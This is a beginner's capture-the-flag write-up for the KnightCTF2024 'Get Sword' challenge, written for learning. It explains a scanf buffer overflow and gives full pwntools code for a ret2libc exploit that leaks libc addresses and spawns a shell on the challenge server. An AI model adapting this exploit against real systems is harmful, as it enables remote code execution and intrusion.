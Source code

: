 # KnightCTF2024 PWN - Get Sword

I am writing this writeup to share my thought process on how to tackle a PWN challenge for any beginners who want to learn PWN (I am a beginner myself). This took me way longer than expected to solve, probably because I havent joined a CTF in awhile due to exams.

## Initial Analysis

We are provided with an ELF file and we will first gather some information about the challenge we are dealing with.

```bash
└─$ file get_sword           
get_sword: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=4a9b260935bf815a04350e3bb9e0e4422f504b2a, for GNU/Linux 4.4.0, not stripped
```

Running the file command reveals that it is a 32 bit executable, and it is "not stripped" so the debugging symbols are not removed.

```bash
└─$ checksec --file=get_sword
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   35 Symbols        No    0               1               get_sword
```

Then, we will use checksec to identify the security protections on the binary. From the result above, there are no security protections enabled on the binary.

```
┌──(kali㉿kali)-[~/Downloads/getsword]
└─$ ./get_sword   
      />_________________________________
[#####[]_________________________________>
      \>
What do you want ? ?: a
You want, a
                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads/getsword]
└─$ ./get_sword
      />_________________________________
[#####[]_________________________________>
      \>
What do you want ? ?: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
You want, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
zsh: segmentation fault  ./get_sword
```

Running the binary shows that it takes input from the user and crashes when we give it too much input.
Now, I am going to decompile the binary using Ghidra and look for the main function

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/c5e62d31-5865-4a26-8672-fa743842b809)

In the main function, only two functions are called which is printSword() and intro().

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/a0ea7883-048f-40f4-bd71-eb9d3de75ba2)

The printSword() function only prints the banner which is not what we are looking for.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/26e383f7-f088-4a42-9e9c-ca006f3d1abd)

However, in the intro() function, we can obviously spot a buffer overflow vulnerability because scanf is using the "%s" format, which does not check how much input the user provides.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/349e3be6-9672-416a-8bc5-2b1fdff69317)

Taking a look at the stack alignment, we need to send 0x20 (32) bytes of data to overwrite the return address. 

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/796b91e9-fbe7-41d1-9f22-213166f2efa0)

The system function is also imported inside the program, which we will pass "/bin/sh" as an argument to spawn a shell on the remote server. This is a style of challenge called Ret2System.

So, we can overwrite the return address and call system function now, but how do we pass "/bin/sh" as an argument? We need to first leak libc addresses because there is a "/bin/sh" string inside libc.

## Exploit writing

```python
payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.printf)
```

So just like we discussed earlier, need to create a payload to overflow the return address. In a 64 bit executable, we will need to pass in arguments to the registers but thats not important here. Since this is a 32 bit executable, we need to call functions from the stack, and also pass in arguments from the stack. 

```
#--------------#
| AAAAAAAAAAAA |
#--------------#
|   FUNCTION   | <--- return address of the current function, we will overwrite this and call printf
#--------------#
|  RET ADDRESS | <--- return address of the new printf function that we are calling
#--------------#
|  ARGUMENT 1  | <--- arguments passed into the printf, which is exe.got.printf
#--------------#
```

This diagram shows how to call a function and pass arguments in x86. First we have the overflow "AAAAAAAA" until we reach the return address. Then we will overwrite this with FUNCTION (in our case, we will call the printf function). So, what we are doing is, we are calling the printf function to print the address of the function in libc. When printf function ends, we will make it jump back to the main function and start exploiting other things again

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/2b5f9583-5249-458c-b9a8-f4896bfc64c4)

Now we can calculate the base of libc with this

```python
p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
printf = u32(woot)
print("PRINTF : ", hex(printf))

libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))

payload2  = offset * b'A'
payload2 += p32(libc.sym.system)
payload2 += 4 * b'B'
payload2 += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter(b"? ?: ", payload2)
p.interactive()
```

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/46e74a9f-5323-414f-8e9b-ca240766d9e5)

We have successfully spawned a shell on our local machine.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/58c9f700-2df7-47be-8f35-50a0848abd60)

But when doing this on the remote server, it fails. We can see from the output that the libc base address is weird, which means that it must be using a different libc version. If this is the case, we will need to leak a few addresses of functions in libc to find the version.

```python
payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.printf)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
printf = u32(woot)
print("PRINTF : ", hex(printf))


payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.fflush)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
fflush = u32(woot)
print("FFLUSH : ", hex(fflush))
```

This is the modified script to leak addresses.

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/2dacbffb-3f06-48cb-809e-ea4387454bb1)

With this we will go to https://libc.rip/ to find the libc version

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/ee7b8170-7a09-4af0-9c67-60ce54041b8a)

We got a few matches. Now, we can download one of it and test it. Move the file into the same directory as your exploit script and add this line

```python
libc = ELF('./libc-2.38-4-x86.so')
```

Now, we are ready to test it on the remote server

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/a07ec6fc-b8eb-4fc8-9aff-ba678f51459f)

We have successfully spawned a shell on the remote server

## Full Script

```python
#!/usr/bin/python
from pwn import *
import warnings

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./get_sword')
#libc = exe.libc
libc = ELF('./libc-2.38-4-x86.so')

host = "173.255.201.51"
port = 31337

gdb_script = '''

'''

offset = 32

#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.printf)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
printf = u32(woot)
print("PRINTF : ", hex(printf))

'''
payload = b"A" * offset
payload += p32(exe.plt.printf)
payload += p32(exe.sym.main)
payload += p32(exe.got.fflush)

p.sendlineafter(b"? ?: ", payload)
p.recvline()
woot = p.recv(4)
fflush = u32(woot)
print("FFLUSH : ", hex(fflush))
'''

libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))

payload2  = offset * b'A'
payload2 += p32(libc.sym.system)
payload2 += 4 * b'B'
payload2 += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter(b"? ?: ", payload2)
p.interactive()
```
